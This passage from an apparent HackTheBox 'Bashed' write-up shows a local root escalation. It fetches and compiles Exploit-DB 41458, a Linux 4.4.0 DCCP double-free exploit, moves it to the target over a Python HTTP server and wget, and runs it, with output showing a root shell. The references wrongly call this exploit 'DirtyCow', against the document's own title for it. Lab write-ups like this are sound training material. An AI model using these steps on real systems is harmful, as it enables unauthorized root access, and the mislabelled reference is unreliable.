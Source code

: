 The exploit that I found was [this](https://www.exploit-db.com/exploits/41458) one and all we had to do was get this code, compile it and run it on the target machine.

```
┌──(kali㉿kali)-[~/Desktop/htb/bashed]
└─$ searchsploit -m 41458
  Exploit: Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41458
     Path: /usr/share/exploitdb/exploits/linux/local/41458.c
File Type: C source, ASCII text

Copied to: /home/kali/Desktop/htb/bashed/4145
     
┌──(kali㉿kali)-[~/Desktop/htb/bashed]
└─$ gcc 41458.c -o exploit
```

We can send this to that target machine by creating a python server with the command `python3 -m http.server` and then retrieving the file on the target machine with `wget`.

![image-20220820185724520](E:\GitHub\Writeups\HackTheBox\Easy\bashed\.images\image-20220820185724520.png)

We also need to make this file executable which can be done by `chmod +x exploit`. Once that is done all we need to do is run the executable and get a shell as root.

```
scriptmanager@bashed:~$ ./exploit
./exploit
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x556b57a39356
[.] done
[.] should be root now
[.] checking if we got root
[+] got r00t ^_^
[!] don't kill the exploit binary, the kernel will crash
root@bashed:/home/scriptmanager# whoami
whoami
root
```

Now that we have access as root, we can easily read the root flag!

## Some Key Points to Take Away

1. Always check for OS version specific exploits.

## References

1. [Bashed](https://app.hackthebox.com/machines/118)
2. [DirtyCow Exploit](https://www.exploit-db.com/exploits/41458)
3. [GFOBins](https://gtfobins.github.io)